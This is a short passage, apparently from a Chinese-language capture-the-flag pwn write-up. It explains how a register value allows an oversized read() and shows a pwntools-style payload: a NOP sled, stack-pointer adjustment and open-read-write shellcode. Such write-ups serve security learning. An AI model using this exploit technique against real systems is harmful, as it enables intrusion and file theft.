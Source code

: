 [![](assets/1708654729-bd9fe3708bfc8c1956a175c5e2b0e858.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104523-42b5ce4c-d063-1.png)  
所以 edx=0xFFFFFFFF  
read(0,0x2333000,0xFFFFFFFF)  
然后把 rsp 设置成有效的地址，然后直接写 orw\_shellcode

```bash
pl=b'\x90'*0x60+asm("shl rsp,0xc;add rsp,0x500;")+orw_shellcode
sl(pl)
```

改 rsp 储存的地址，方便压栈，然后继续执行
